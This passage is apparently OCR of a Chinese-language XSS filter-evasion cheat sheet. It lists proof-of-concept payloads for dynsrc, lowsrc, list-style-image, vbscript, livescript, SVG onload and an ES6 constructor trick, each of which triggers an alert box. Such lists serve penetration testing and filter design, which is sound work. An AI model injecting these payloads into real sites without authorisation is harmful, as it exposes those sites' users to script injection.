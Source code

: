 ### 2.37.    IMG Dynsrc

> <IMG DYNSRC=”javascript:alert(‘XSS’)”>

### 

### 

### 2.38.    IMG lowsrc

> <IMG LOWSRC=”javascript:alert(‘XSS’)”>

### 

### 

### 2.39.    List-style-image

### 

处理嵌入的图片列表是很麻烦的问题。由于JavaScript指令的原因只能在IE渲染引擎下有效。不是一个特别有用的跨站脚本攻击向量:

> <STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS</br>

### 2.40.    图片中引用VBscript

> <IMG SRC=’vbscript:msgbox(“XSS”)’>

### 

### 

### 2.41.    Livescript (仅限旧版本Netscape)

> <IMG SRC=”livescript:[code]">

### 

### 

### 2.42.    SVG对象标签

> <svg/onload=alert('XSS')>

### 

### 

### 2.43.    ECMAScript 6

> Set.constructor`alert\x28document.domain\x29```

### 

### 

